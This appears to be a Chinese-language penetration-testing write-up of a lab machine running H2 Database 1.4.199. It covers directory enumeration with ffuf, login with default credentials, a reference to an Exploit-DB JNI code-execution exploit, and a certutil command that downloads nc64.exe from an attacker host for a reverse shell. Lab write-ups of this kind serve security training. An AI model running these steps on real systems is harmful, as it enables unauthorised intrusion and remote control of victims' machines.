

# 信息收集

## nmap


## 80端口-h2database


后缀是html，所以指定后缀去扫目录，可以得到很多目录，命令如下：

```
ffuf -u "http://192.168.151.66/html/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -e .html 
```

```
faq.html                
#                       
main.html               
links.html              
history.html            
features.html           
Images                  
FAQ.html                
source.html             
license.html            
tutorial.html           
Download.html           
Links.html              
advanced.html           
Main.html               
roadmap.html            
changelog.html          
frame.html              
architecture.html       
ChangeLog.html          
performance.html        
Features.html           
History.html            
installation.html       
build.html              
LICENSE.html            
IMAGES                  
quickstart.html         
functions.html          
License.html            
Tutorial.html           
CHANGELOG.html          
Changelog.html          
Architecture.html       
commands.html           
grammar.html            
Installation.html       
Performance.html        
Advanced.html           
Faq.html                
Source.html             
HISTORY.html            
fragments.html          
DOWNLOAD.html           
RoadMap.html            
Roadmap.html            
QuickStart.html         
Functions.html          
Frame.html              
Build.html              
MAIN.html               
                        
datatypes.html          
LINKS.html              
DownLoad.html           
Grammar.html            
TUTORIAL.html           
Commands.html           
FEATURES.html           
quickStart.html         
BUILD.html  
```

`changelog.html`下最新的版本为1.4.199，所以可以猜测当前版本就是1.4.199


## 8082端口-h2database-控制台

8082端口部署的是后台管理页面，并且8082也是h2database的默认端口，所有猜测密码也是默认密码，网上查询到默认用户就是sa，默认密码是空


用空密码正好可以登录


# H2 Database 1.4.199 - JNI Code Execution

[H2 Database 1.4.199 - JNI Code Execution - Java local Exploit](./https://www.exploit-db.com/exploits/49384)

通过搜索得知1.4.199的确存在代码执行漏洞，按照exp中的步骤可以命令执行，执行代码较长此处就不做粘贴了，可以自行下载exp，复制exp中的sql语句


目的是通过 Java 的 `Runtime.getRuntime().exec()` 执行系统命令，并通过 `Scanner` 读取输出。需要通过调用 `cmd.exe /c` 才能执行 `cmd`命令提示符下的一些命令，如`dir`，`cd`

将`nc64.exe`上传到靶机，使用nc来反弹shell

```
certutil -urlcache -split -f http://192.168.45.198/nc64.exe nc64.exe
```


当你第一次获得反向 shell 时，系统会对基本命令如 `whoami` 和 `cmd.exe` 抛出 `Command not found` 错误。这是因为 `%PATH%` 环境变量没有设置一些好的默认值。

```
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```

# 提权

提权是利用了本机安装的一个应用程序，该应用程序存在本地提权漏洞




按照exp对应操作即可


